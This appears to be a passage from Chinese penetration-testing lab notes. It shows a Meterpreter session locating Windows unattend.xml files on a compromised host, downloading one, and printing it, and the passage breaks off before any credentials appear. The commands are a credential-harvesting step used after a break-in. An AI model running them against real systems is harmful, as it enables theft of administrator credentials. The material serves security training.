 **方法二：利用meterpreter的search查找文件**

[SEARCHING FOR CONTENT](https://www.offensive-security.com/metasploit-unleashed/searching-content/)

`-f` switch and tell it what filetype to look for.

```
meterpreter > search -f unattend.xml
Found 3 results...
    c:\ProgramData\Amazon\EC2-Windows\Launch\Sysprep\Unattend.xml (5366 bytes)
    c:\Users\All Users\Amazon\EC2-Windows\Launch\Sysprep\Unattend.xml (5366 bytes)
    c:\Windows\Panther\unattend.xml (3519 bytes)
meterpreter > download c:\\Windows\\Panther\\unattend.xml
[*] Downloading: c:\Windows\Panther\unattend.xml -> unattend.xml
[*] Downloaded 3.44 KiB of 3.44 KiB (100.0%): c:\Windows\Panther\unattend.xml -> unattend.xml
[*] download   : c:\Windows\Panther\unattend.xml -> unattend.xml
```

```
root@attackdefense:~# cat unattend.xml
<?xml version="1.0" encoding="utf-8"?>
<unattend xmlns="urn:schemas-microsoft-com:unattend">
    <settings pass="windowsPE">
        <component name="Microsoft-Windows-Setup" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <UserData>
                <ProductKey>
                    <WillShowUI>Always</WillShowUI>
                </ProductKey>
            </UserData>
            <UpgradeData>
                <Upgrade>true</Upgrade>
                <WillShowUI>Always</WillShowUI>
            </UpgradeData>
        </component>
        <component name="Microsoft-Windows-PnpCustomizationsWinPE" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <DriverPaths>
                <PathAndCredentials wcm:keyValue="1" wcm:action="add">
                    <Path>$WinPEDriver$</Path>
                </PathAndCredentials>
            </DriverPaths>
        </component>
    </settings>
    <settings pass="specialize">
        <component name="Microsoft-Windows-Deployment" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <RunSynchronous>
                <RunSynchronousCommand wcm:action="add">
                    <Order>1</Order>
                    <Path>cmd /c "FOR %i IN (X F E D C) DO (FOR /F "tokens=6" %t in ('vol %i:') do (IF /I %t NEQ "" (IF EXIST %i:\BootCamp\BootCamp.xml Reg ADD "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v AppsRoot /t REG_SZ /d %i /f )))"</Path>
                </RunSynchronousCommand>
            </RunSynchronous>
        </component>
    </settings>
    <settings pass="oobeSystem">
        <component name="Microsoft-Windows-Shell-Setup" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <FirstLogonCommands>
              <SynchronousCommand wcm:action="add">
```